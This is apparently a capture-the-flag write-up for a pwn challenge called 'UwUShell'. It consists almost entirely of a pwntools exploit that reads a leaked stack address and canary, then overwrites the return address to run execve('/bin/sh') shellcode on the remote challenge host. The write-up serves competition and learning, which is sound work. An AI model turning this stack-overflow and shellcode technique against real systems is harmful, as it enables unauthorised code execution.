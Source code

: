 # UwUShell--  
Description  
Solves 2  

You successfully arrived in front of the king of UwU! ─=≡Σ((( つ•̀ω•́)つ

Can you make him marvel at the power of your shellcode and get the flag? (≖ᴗ≖๑)

`nc chal.firebird.sh 35028`

[File](./program)

[Source](./source)



## Solution 
```py
from pwn import * 

binary = "./program"
context.arch = 'amd64'
#p = process(binary)
p = remote("chal.firebird.sh", 35028)
context.log_level = 'debug'
s = 'b* UwU_main+546'
#gdb.attach(p, s)
p.recvuntil("0x")
leak_addr = int(b'0x' + p.recvuntil(b' ', drop = True), 16)
shellcode_addr = leak_addr + 0x18 + 8 + 8
p.recvuntil("0x")
canary = int(b'0x' + p.recvuntil(b' ', drop = True), 16)

#print(hex(canary))
p.sendlineafter("how long is your shellcode?", b'48')

shellcode_addr = leak_addr + 0x18 + 8 + 8   

print(f"Leaked address: {hex(leak_addr)}")
print(f"Canary: {hex(canary)}")


shellcode1 = asm("""
xor esi, esi            
cdq
lea rdi, [rsp-0x20]
mov al, 0x3b            
syscall                
""")   



shellcode_addr = leak_addr + 0x18 + 8 + 8 # leak_addr is rbp-0x18
payload = b'/bin/sh\x00' # 8 bytes from rbp_0x10 to canary
payload += p64(canary) # perserving canary
payload += b'BBBBBBBB'
payload += p64(shellcode_addr)
payload += shellcode1

p.sendlineafter("I'm looking forward to seeing its full potential!", payload)
p.interactive()
```
## Observations
```
```